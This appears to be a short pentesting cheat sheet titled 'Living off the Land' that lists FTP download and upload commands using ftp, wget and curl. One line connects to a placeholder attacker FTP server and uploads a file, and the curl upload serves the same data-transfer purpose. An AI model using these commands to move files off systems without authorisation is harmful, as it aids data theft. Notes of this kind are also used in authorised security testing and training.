 # Living off the Land

## 01 - Download

```
$ ftp <attacker_FTP_server>

ftp> put file.txt

$ wget --no-hsts -m ftp://<username>@<password>@<IP>

$ wget --no-hsts -m --no-passive ftp://<username>@<password>@<IP>

$ curl -u <username>:<password> ftp://<IP>/file.txt
```

## 02 - Upload

```
$ curl -u <username>:<password> -T /path/to/file.txt ftp://<IP>
```

---
## References

- [TheGeekDiary: How to Use FTP Under Linux to Transfer Files](https://www.thegeekdiary.com/how-to-use-ftp-under-linux-to-transfer-files/)